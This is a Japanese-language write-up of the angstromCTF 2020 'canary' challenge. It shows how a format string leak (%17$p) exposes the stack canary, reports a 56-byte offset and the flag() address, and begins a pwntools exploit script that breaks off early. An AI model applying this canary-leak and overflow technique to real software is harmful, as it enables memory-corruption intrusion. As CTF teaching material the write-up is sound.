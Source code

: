<br />

### Solution

FSB (Format String Bug)を使ってCanaryをLeakし、Canaryを壊さないようにしてBOFをするチャレンジです。

<pre>
captureamerica@kali:~/CTF/angstromCTF_2020$ checksec canary
[*] '/home/captureamerica/CTF/angstromCTF_2020/canary'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br />
オフセットのサイズ(56バイト)と、Canaryが現れる位置(17)は、gdbで調べました。

以下のスクリーンショットは、最初の入力でAAAA、2回目の入力でBBBBを入れた後に見たスタックです。

<img src="https://captureamerica.github.io/writeups/img/angstromctf_canary_gdb.png" alt="angstromctf_canary_gdb.png">


Return Address (0x4009c9)の2つ前がCanaryです。Null(\00)で始まってます。

バッファオーバーフローをさせるのは2回目の入力なので、BBBBの位置から見て56バイトがCanaryまでのオフセットです。


<br>
FSBをした際に何番目になるかは、以下の方法で調べました。0x4009c9を目安に探します。実行する度に値は変わります。

<pre>
Hi! What's your name? %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
Nice to meet you, 0x7fffffffb820 0x47 0xffffffffffffffb7 0x7ffff7fb5500 0x12 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2170252070252070 0x7fffffff000a (nil) 0xddff4ae3ed3ade00 0x7fffffffdf30 0x4009c9 0x7fffffffe010 0x3e900000000 0x4009d0 0x7ffff7e1abbb (nil)!
</pre>

<pre>
Hi! What's your name? %17$p
Nice to meet you, 0xe1cad64c2bec5d00!
</pre>


<br>
flag()関数のアドレス。
<pre>
gef➤  x flag
0x400787 <flag>:	0xe5894855
</pre>


<br />
以下が今回書いたコードです。

```Python
#!/usr/bin/env python
from pwn import *

if 1:
    user='xxxxx'
    pw='yyyyy'
    s=ssh(host='shell.actf.co', user=user, password=pw)
    s.set_working_directory('/problems/2020/canary')
    p = s.process('./canary')
else:
    p = process('./canary')

p.recvuntil("Hi! What's your name? ")
```